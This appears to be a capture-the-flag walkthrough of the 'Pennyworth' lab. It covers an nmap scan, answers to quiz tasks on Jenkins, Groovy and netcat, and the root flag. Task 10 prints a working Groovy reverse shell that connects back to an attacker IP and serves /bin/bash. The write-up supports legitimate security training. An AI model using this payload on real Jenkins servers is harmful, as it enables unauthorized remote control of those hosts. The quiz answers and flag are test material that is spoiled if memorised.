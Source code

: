 # Pennyworth

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.64.37 -oA Penntyworth
```

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

## Task 1

What does the acronym CVE stand for?

Answer: Common Vulnerabilities and Exposures

## Task 2

What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

Answer: Confidentiality, Integrity, Availability

## Task 3

What is the version of the service running on port 8080?

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Answer: Jetty 9.4.39.v20210325

## Task 4

What version of Jenkins is running on the target?

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Answer: 2.289.1

## Task 5

What type of script is accepted as input on the Jenkins Script Console?

Answer: Groovy

## Task 6

What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

Answer: cmd.exe

## Task 7

What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

Answer: ifconfig

## Task 8

What switch should we use with netcat for it to use UDP transport mode?

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Answer: -u

## Task 9

What is the term used to describe making a target host initiate a connection back to the attacker host?

Answer: reverse shell

## Task 10

Submit Root Flag

&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

```groovy
String host="10.10.14.80";
int port=8008;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port); InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream(); OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Answer: 9cdfb439c7876e703e307864c9167a15

